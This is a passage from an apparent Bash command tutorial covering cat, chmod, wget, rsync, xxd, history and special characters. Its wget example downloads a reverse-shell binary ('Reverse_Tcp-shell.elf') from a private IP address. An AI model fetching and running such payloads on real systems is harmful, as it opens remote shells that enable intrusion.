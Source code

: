 <pre>$ cat file_1 file_2 > Combined_File_3</pre>

<pre>$ cat nally.txt</pre>

<pre>$ cat ./-weird_Office-file_name(2).docx.docx</pre>

Display a file with a dash in the name with (./) **e. <a id="chmod">chmod</a>**  
Change mode allows you to change file mode bits. In **.nix** environments, file and folder permissions are displayed with the ls command, beginning with: Directory/Link: 1 bit, followed by: user/group/owner with 3 bits each: (-DUUUGGGOOO) The: + operator adds selected file mode bits, and: - removes them. So to give the current user and group execute permissions on a file try this first command. The second command shows how to execute the file with (./).

<pre>$ chmod ug+x Endless_ping_loop.sh</pre>

<pre>$ ./Endless_ping_loop.sh</pre>

**f. <a id="wget">wget</a>**  
This neat tool is known as the non-interactive network downloader. And it does just that, this command downloads a file from a remote server.

<pre>$ wget http://192.168.53.4/files/Reverse_Tcp-shell.elf</pre>

**g. <a id="rsync">rsync</a>**  
Used to backup and copy files based on changes in them. At some point, current technologies like Dropbox and others use utilities similar to rsync in order to keep your data synchronized with what's in the cloud. Rsync can also backup over the network using ssh. Read MAN page! Local backup: -a: archive, -z: compress data during transfer, -v: increase verbosity

<pre>$ rsync -azv /path/folder1/macs.db /path/folder2/macs_copy.db</pre>

**h. <a id="xxd">xxd</a>**  
Make a hexdump or do the reverse. This simple command uses -r: reverse, to convert a hexadecimal file to binary format.

<pre>$ xxd -r  original.hex reverse.bin</pre>

**i. <a id="history">history</a>**  
This simple command shows a numbered list of the previous commands you have entered since you last erased your Bash history.

<pre>$ history</pre>

<pre>1 ls -ali
2 cd ../our/parents/child/dir
3 whoami
4 echo hello > foo.bar</pre>

If you want to run any previous command, just use: !#number

<pre>$ !3
$ root</pre>

### Networking Commands and Special Characters. ## Special Characters These are some of the many special characters that can be used with commands in the Bash terminal/command prompt.  
**<a id="tilde">~ Tilde</a>**  
The tilde represents the home directory. When followed by a (/), or used alone it means the current user's home directory.
